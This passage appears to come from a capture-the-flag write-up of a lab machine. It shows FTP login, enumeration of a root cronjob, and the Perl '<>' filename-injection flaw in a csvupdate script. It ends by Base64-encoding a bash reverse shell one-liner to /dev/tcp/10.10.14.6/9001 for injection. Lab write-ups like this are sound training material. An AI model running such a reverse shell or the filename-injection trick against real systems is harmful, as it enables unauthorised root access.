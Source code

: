 The password of the user _pwnmeow_ works only on the FTP service:
```
ftp 10.10.10.249

Name (10.10.10.249:root): pwnmeow                                                                 
331 Please specify the password.                                                                  
Password:                                                                                         
230 Login successful.
```

By searching for one of the filenames, they can be found in _/srv/ftp/ability_changelog_:
```
find / -iname ability_changelog 2>/dev/null
```

When doing some more enumeration, there is a cronjob in _/etc/crontab_:
```
* * * * * root /usr/local/bin/csvupdate_cron
```

The bash script _csvupdate_cron_ executes _/usr/local/bin/csvupdate_ in the directory _/srv/ftp/_:
```bash
for d in /srv/ftp/*
do
  cd $d
  /usr/local/bin/csvupdate $(basename $d) *csv
  /usr/bin/rm -rf *
done
```

The file _csvupdate_ is a Perl script and has a vulnerability that is described in the talk ["The Perl Jam 2"](https://www.youtube.com/watch?v=RPvORV2Amic).

The following `for` loop contains the vulnerability:
```perl
# (...)
for(<>)                                          
{                              
  chomp;                                   
  if($csv->parse($_))                       
  {                                         
    my @fields = $csv->fields();                                                                  
    if(@fields != $csv_fields{$type})            
    {                                                                                             
      warn "Incorrect number of fields: '$_'\n";                                                  
      next;                                                                                       
    }                                                                                             
    print $fh "$_\n";          
  }
}
```

Encoding a reverse shell command into Base64 without special characters in the result:
```
echo 'bash  -i >& /dev/tcp/10.10.14.6/9001  0>&1  ' | base64 -w 0
```
